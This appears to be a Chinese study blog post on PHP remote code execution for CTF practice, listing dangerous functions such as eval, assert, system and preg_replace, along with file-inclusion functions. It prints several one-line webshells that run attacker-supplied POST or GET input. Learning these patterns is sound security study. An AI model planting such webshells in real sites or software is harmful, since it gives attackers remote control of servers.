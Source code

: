 ```yaml
---
layout:     post
title:      Web小知识-RCE
subtitle:   A power that one command converys
date:       2025-04-15
author:     sword Reforge
header-img: img/post-bg-coffee.jpg
catalog: 	  true
tags:

   - 知识
---
```


###### 常用函数

eval()
system()
assert()
exec()
preg_replace()
shell_exec()
call_user_func()
passthru()
array_map()
popen()
这些函数都是常见的敏感函数，容易造成一些危险的漏洞
当然也是很重要的考点，其具体作用参考(https://zhuanlan.zhihu.com/p/622502997)

这些是一个笼统的记录，他们有不同的危险特色：
\###1、代码执行系
这些函数能够执行一些php的代码，造成危险，同时是flag的获取点

#### eval()

大名鼎鼎，臭名昭著。一句话木马常客一号。

```
<?php @eval($_POST['shell']);?>
```



#### assert()

同样是很敏感的东西，一句话木马常客二号

```
<?php assert(@$_POST['shell']); ?>
```



#### preg_replace()

这个不太常用，当匹配模式/e时，该函数会将$replacement作为php代码执行
贴一份对应一句话木马

```
preg_replace("/test/e",$_GET["shell"],"just test");
```



剩下几个使用范围较少，有的甚至已经被弃用了，这里就不做介绍了：
create_function() (**在php7.2.0后被废弃**)
array_map()
call_user_func()
call_user_func_array()
array_filter()

### 2、命令执行系

#### system()

漏洞头头，这里放出一句话木马的形式：

```
<?php
    system($_GET['cmd']);
?>
```



#### exec() 执行外部程序

```
<?php 
    echo exec("whoami");
?>
```



#### shell_exec() 通过shell环境执行命令，并将完整的输出以字符串的方式返回

```
<?php 
    echo shell_exec("whoami");
?>
```



剩下的由于不怎么常用，这里仅做列举
passthru() 执行外部程序并且显示原始输出

```
<?php 
    passthru("whoami");
?>
```



proc_open() 执行一个命令，并且打开用来输入/输出的文件指针
pcntl_exec() 在当前进程空间执行指定程序
popen() 打开进程文件指针
反引号，实质上还是调用的shell_exec()函数，在CTF题目里面有的时候会忘记过滤导致直接拿到flag

### 文件包含系

php中包含的函数一共有四个，主要作用为包含并运行指定文件
require() 函数
inclue() 函数
require_once() 函数
include_once() 函数
include()与require_once()主要的区别是：include()在包含的过程中如果出现错误，会抛出一个警告，程序继续运行；而require()函数出现错误时，会直接报错并退出程序的执行
require_once()和include_once()，显然表示的是文件只包含一次的意思，避免函数重定义和变量重新赋值等问题
这些函数通常配和伪协议来实现文件包含漏洞；

### SSRF系

~~没学过还不会，先放着~~

### XXE系

~~也没学过~~

## 其他：

php的变量名使用字母数字和下滑线构成的，所以会将空格、+、点、[转换为下划线，但是当[提前出现后，后面的点就不会再变成_了
